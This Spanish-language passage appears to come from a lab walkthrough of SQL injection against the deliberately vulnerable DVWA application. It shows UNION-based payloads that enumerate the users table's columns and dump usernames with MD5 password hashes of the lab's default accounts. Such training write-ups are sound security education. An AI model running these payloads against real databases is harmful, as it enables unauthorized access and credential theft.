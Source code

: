 Así que enumeraremos las columnas de la tabla **users**, con esta nueva consulta:

`1' UNION SELECT GROUP_CONCAT(column_name), NULL FROM information_schema.columns WHERE table_schema = 'dvwa' AND table_name = 'users' -- -`

Esta vez usamos la función GROUP_CONCAT() para que nos sea más fácil ver las columnas sin que se muestre tanto texto, así que nos respondió esto:

![columns](/assets/images/DVWA-SQLi/SQLi-easy/columns.png)

Vemos que nos enumeró las columnas de la tabla **users** y estas columnas son:

- user_id
- first_name
- last_name
- user
- password
- avatar
- last_login
- failed_login

Vemos muchas columnas, pero las que nos llaman la atención son **user** y **password**, por lo que procederemos a enumerarlas:

`1' UNION SELECT GROUP_CONCAT(user,':',password), NULL FROM dvwa.users -- -`

![data](/assets/images/DVWA-SQLi/SQLi-easy/data.png)

Podemos ver que nos enumeró el usuario y password, agregando el caracter : para separar ambas cosas.

Podemos ver que nos dumpeo estos datos:

- admin:5f4dcc3b5aa765d61d8327deb882cf99
- gordonb:e99a18c428cb38d5f260853678922e03
- 1337:8d3533d75ae2c3966d7e0d4fcc69216b
- pablo:0d107d09f5bbe40cade3de5c71e9e9b7
- smithy:5f4dcc3b5aa765d61d8327deb882cf99
